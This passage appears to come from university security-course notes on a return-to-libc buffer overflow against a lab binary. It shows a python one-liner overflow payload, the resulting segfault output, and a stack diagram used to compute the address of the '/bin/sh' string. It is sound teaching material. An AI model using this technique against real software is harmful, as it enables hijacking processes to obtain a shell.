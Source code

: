 Boom shell!

## Jumping to the Exploit String

Another option is to write an address to the stack where `system()` will
use it as its argument. Consider that we have control of the stack at
this point, and we can write arbitrarily to the stack, so the question
is, what address do we write? Why not jump to the exploit string itself?

Consider this version of the exploit again this time, I'm going to use
0xdeadbeef for the address of system and then 0xcafebabe for the address
where the address of "/bin/sh" should be.

``` example
user@si485H-base:demo$ ./harder `python -c "cmd='/bin/sh;';print cmd+'A'*(0x28+4-len(cmd))+'\xef\xbe\xad\xde' + 'BBBB' + '\xbe\xba\xfe\xca'"`
/bin/sh;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ?AAAA????
Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[ 7089.578719] harder[2566]: segfault at deadbeef ip deadbeef sp bffff690 error 15
```

After the return/leave, the segfault occurs revealing the stack pointer
at the time of the exploit, and this is EXACTLY the information we need
to calculate the address of the start of the exploit string
where "/bin/sh;" lives.

Consider again, that after the return and leave, the stack looks like
this:

``` example

  ebp -> ???

         |  ....  |
         |--------|
         |cafebabe|
         |--------|
  esp -> |  BBBB  | ---.
         |--------|    |
         :        :    |
         : ...    :    | 
         : AAAA   :    |  esp - 0x28 - 0x8
         : ;AAA   :    |
         : /cat   :    |
         : /bin   :    |
         ' - -- - '----'
```

Looking at the exploit closely, you see that `esp` references the "BBBB"
following the exploit, we see that this address is exactly 0x28+8 bytes
away from the start of the exploit string. We know this because the
return address was 0x28+4 bytes away, and this is four bytes beyond
that. That means if we replace 0xcafebabe with
0xbffff690-0x28-8=0xbffff660, we should get the exploit we want. Let's
give it a try:
